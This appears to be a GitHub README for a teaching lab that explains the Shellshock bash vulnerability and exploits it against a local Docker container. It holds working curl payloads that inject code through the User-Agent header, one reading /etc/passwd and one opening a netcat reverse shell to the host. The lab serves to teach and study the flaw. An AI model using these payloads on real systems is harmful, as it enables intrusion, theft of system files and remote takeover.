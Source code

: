 forked from https://github.com/tex2e/docker-shellshock-cgi


# Shellshock
This repository consists of a description and a demonstration of the shellshock vulnerablity. The demonstration is based on a docker container containing a CentOS8 linux distribution with a vulnerable bash (v4.3), an Apache2 Webserver and netcat.

## Description of vulnerability
In the standard linx bash it is possible to store not only values but also functions in environment variables. When such functions are stored in environment variables, there is a bug that prevents the parsing process from not terminating after the function ends. Instead, anything entered after the function is executed directly in the current shell environment.

By itself, this bug cannot be abused from the outside. In combination with a webserver and an associated Common Gateway Interface (CGI) this bug becomes dangerous. The CGI interface is used to get e.g. browser specific data from the webserver to an application by the following procedure:


1. the request is sent to the web server 
2. the web server stores general data as environment variables in the current environment
3. the cgi application can get this information by reading the environment variables.

With this behavior, it is possible to send a request to the web server that contains some function-like lines and concatenated code snippets. After parsing the function, the parsing process does not stop and executes the additional code snippets directly in bash


## Demonstration
Prerequisites:
- Docker
- git 
- netcat

### Build and run docker container
1. clone this git repository 
```bash 
git clone https://github.com/juuugee/docker-shellshock-cgi.git 
 ```
2. navigate inside the cloned directory
```bash 
cd docker-shellshock-cgi/
 ```

3. build docker container: 
``` bash
docker build -t seccode/shellshock .
```
4. run docker container: 
``` bash
docker run -itd -p 80:80 --privileged --add-host=host.docker.internal:host-gateway --name secode_shellshock seccode/shellshock /sbin/init
``` 
To make sure that the docker container is running, enter the following url in a browser: 

    http://localhost:80


### Attack 1 
(Linux terminal preferred)

With the curl command, send a request to the webserver of the running docker container. 
In this example, the file **etc/passwd** can be accessed and directly printed out:
```bash
curl -A "() { :;}; echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://localhost:80/cgi-bin/test.cgi
```

In the command above, the expression *() { :;};* is a empty function which should be parsed into a envrionment variable. Instead of stopping the parsing process the addtional code is being executed, which accessses the **etc/passwd** file and prints it with the **/bin/cat** tool in our console.

### Attack 2
in the second attack a reverse shell is being created. 
1. start netcat listener on the host computer:
```    
nc -lp 4545
```
This listener waits for the docker container to connect to it.     

2. Establish a connection:
In a second terminal send the request below to the webserver in the docker container. This leads to a reverse shell.
```
curl -A "() { :;}; /bin/bash -c \"nc host.docker.internal 4545 -e /bin/bash\"& " http://localhost:80/cgi-bin/test.cgi
```

After executing this command the netcat listener in the first termimal should display an incoming connection. Now it is possible to enter commands in this terminal which then are directly executed in the docker container. Below are some examples:
```
$ whoami
$ pwd
$ ls
$ cd
...
```

### See Also

- [mubix/shellshocker-pocs: Collection of Proof of Concepts and Potential Targets for #ShellShocker](https://github.com/mubix/shellshocker-pocs)
- [docker-shellshockable/Dockerfile at master · Zenithar/docker-shellshockable](https://github.com/Zenithar/docker-shellshockable/blob/master/Dockerfile)
